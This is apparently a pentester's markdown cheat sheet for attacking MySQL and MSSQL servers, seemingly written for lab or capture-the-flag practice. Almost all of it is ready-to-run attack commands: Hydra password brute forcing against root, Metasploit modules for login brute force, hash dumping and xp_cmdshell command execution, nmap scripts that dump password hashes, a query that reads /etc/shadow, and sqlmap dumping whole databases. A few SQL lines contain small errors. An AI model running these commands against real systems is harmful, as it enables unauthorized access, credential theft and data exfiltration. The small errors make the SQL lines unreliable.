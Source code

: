# Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. [Hydra](#Hydra)
	2. [Msfconsole](#msfconsole)
	3. [nmap](#nmap)
	4. [sqlmap](#sqlmap)

---
# Overview 

SQL - Simple Query Language

Relational database that is used by a lot of websites to store data.

---
## #Ports
- 3306 : mysql
- 1433 : MSSQL

## Usage
`mysql -h 192.168.34.3 -u root`
- `show database;` : shows databases
- `use books;` : go in to database
- `select count * from authors;` : show authors
- `help;` : help menu
- `select load_file("/etc/shadow");` : can see dir access by user from msfconsole mysql_writable_dirs

### Commands
Once logged in with mysql move round and view the information.
1. SHOW databases;
2. USE **staff**;
3. SHOW tables;
4. SELECT * FROM **login**

## Related Services
- MySql : database
- PostgreSql : database
- MariaDB : database
- MSSql : Microsoft SQL

---

# #Tools

## Hydra
dictionary attack
```bash
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt 192.168.45.3 mysql
```

---

## msfconsole
### MYSQL
1. use auxiliary/scanner/mysql/**mysql_writable_dirs**
	1. set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
	2. setg rhosts 192.168.34.2
	3. setg : set globaly
	4. set verbose false
	5. advanced : advanced options
	6. set password "" : null password
	7. run
3. use auxiliary/scanner/mysql/**mysql_hashdump**
	1. set username root
	2. set password "" : doesn't show in options
	3. run
	4. gives user hashes
5. use auxiliary/scanner/mysql/**mysql_login**
	1. set rhost addr
	2. set pass_file /usr/share/metasploit-framework/data/wordlists/unix_password.txt
	3. set stop_on_success true
	4. set username root
	5. run
#### Useful modules
- auxiliary/scanner/mysql/mysql_version
- auxiliary/scanner/mysql/mysql_login
- auxiliary/admin/mysql/mysql_enum
- auxiliary/admin/mysql/mysql_sql
- auxiliary/scanner/mysql/mysql_file_enum
- auxiliary/scanner/mysql/mysql_hashdump
- auxiliary/scanner/mysql/mysql_schemadump
- auxiliary/scanner/mysql/mysql_writable_dirs

---

### MSSQL
- use auxiliary/scanner/mssql/mssql_login
	- setg rhosts addr
	- set user_file /root/desktop/wordlists/common_users.txt
	- set pass_file /root/dektop/wordlists/100-common-passwords.txt
	- run
- use auxiliary/admin/mssql/mssql_enum
	- run
- use auxiliary/admin/mssql/mssql_enum_sql_logins
- use auxiliary/admin/mssql/mssql_exec
	- set cmd whoami
	- set username sa ???
- use auxiliary/admin/mssql/mssql_enum_domain_accounts
	- run

---

## nmap
### MSQL
- --script
	- mysql-empty-password
		- show users with no pass
	- mysql-info
		- shows capabilities and other info
	- mysql-users
		- --script-args="mysqluser='root',mysqlpass=''"
	- mysql-databases
		- --script-args="mysqluser='root',mysqlpass=''"
	- mysql-variables
		- --script-args="mysqluser='root',mysqlpass=''"
		- look for **datadir:** locations
	- mysql-audit
		- --script-args="mysql-audit.username='root',mysql-audit.password='', mysql-audit.filename='usr/share/nmap/nselib/data/mysql-cis.audit"
	- mysqldump-hashes
		- --script-args="username='root',password=''"
	- mysql-query
		- --script-args="query='select count(\*) from books',username='root',password=''"
### MSSQL
- --script
	- ms-sql-info
		- information
	- ms-sql-ntlm-info
		- `--script-args instance-port=1433`
		- version info
	- ms-sql-brute 
		- ` --script-args userdb=/usr/wordlists/common_users.txt,passdb=/usr/wordlists/100-common-passwords.txt`
	- ms-sql-empty-password
	- ms-query
		- `-script-args mssql.username-admin,mssql.password=anamaria,ms-sql.query.query='SELECT * FROM master..syslogins' -oN output.txt`
	- ms-sql-dump-hashes 
		- `--script-args mssql.username=admin,mssql.password=anamaria`
	- ms-sql-xp-cmdshell 
		- `--script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"`
			- `ms-sql-xp-cmshell.cm="type c:\flag.txt"`
				- type is windows version of cat

---

## sqlmap

#### `Usage: python3 sqlmap [options]`

1. Use burpsuite to intercept a request and save it to a file
2. pass the file to sqlmap
	1. `sqlmap -r request.txt --dbms=mysql --dump`
3. sqlmap will try to find a vulnerability and then dump the database

